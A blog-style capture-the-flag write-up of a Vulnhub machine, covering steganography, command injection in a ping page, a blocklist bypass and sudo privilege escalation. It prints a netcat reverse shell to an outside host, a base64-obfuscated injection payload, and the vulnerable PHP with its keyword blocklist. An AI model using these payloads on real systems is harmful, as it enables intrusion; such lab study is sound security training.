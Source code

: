 ```yaml
---
layout: post
title: Vulnhub - 2Much writeup
date: 2019-02-01 8:00 PM
---
```


## Nmap

![](images/noname/nmap.png)

We see only one port is open so that is what we are going to enumerate more

***

## HTTP

![](images/noname/website.png)

It's very simple and plain website. I started gobuster scan on it to see if we can find any hidden directory.

![](images/noname/gobuster.png)

We can see that there is `/admin`. And if we open that page we see some images:

![](images/noname/admin.png)

And in the comment I found a phassphrase 

![](images/noname/pass.png)

When I saw that it said `passphrase` and the webpage had some image file I knew it right away that in one of these files we'll find something hidden. So I tried all the images and found something in `haclabs.jpeg`(the one with spiderman on it)

I used the following command to extract the file from the image:
```bash
steghide --extract -sf haclabs.jpeg -p harder
```

![](images/noname/extract.png)

And this gave me `imp.txt`. That file had a base64 encoded string which gave me a name of file called `superadmin.php`

![](images/noname/b64.png)

When we open that page we see a utility that takes IP as an input and pings it. Now obviously we can test this input for `RCE`.
After some trial I was able to execute command using `|` i.e if we enter `127.0.0.1 | whoami` it will give us `www-data`.

![](images/noname/rce.png)

Before I tried to get the reverse shell I tried to read the source of the `superadmin.php` to see what all command is restricted.

```
127.0.0.1 | cat superadmin.php
```

![](images/noname/source.php)

```php
?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>


</pre>
```
We can see that there are some commands that are not allowed at all. So we can use `nc.traditional` to get a reverse shell but the issue with that would be `nc` string would still be detected. So to bypass this I simply base64 encoded the following payload:

```bash
nc.traditional -e /bin/bash 192.168.1.125 4444
```

And then sent the following command in that IP box

```
127.0.0.1 | `echo "bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMS4xMjUgNDQ0NAo=" | base64 -d`
```
![](images/noname/rev.png)

***

## Privilege escalation

I ran my enumeration script but couldn't find anything in that. So I started to look around manually. In `/home/yash` I found `flag1.txt` which said that we need to find some hidden file.

![](images/noname/flag.png)

I used the `find` command to find the hidden file.

![](images/noname/hidden.png)

and then found the password for `haclabs` account.

![](images/noname/passwd.png)

`haclabs:haclabs1234`

as we noticed that in `haclabs` there was a file named `.sudo_admin...` that means there are some sudo rights for `haclabs` so after I `su` to that account I ran `sudo -l` to see what he's allowed to run.

![](images/noname/sudo.png)

as we can see he can run `find` command as root. We can use [gtfo](https://github.com/mzfr/gtfo) to search gtfobins from terminal.

![](images/noname/root-shell.png)

![](images/noname/root.png)

***

That's it for now.

Thanks for reading, feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
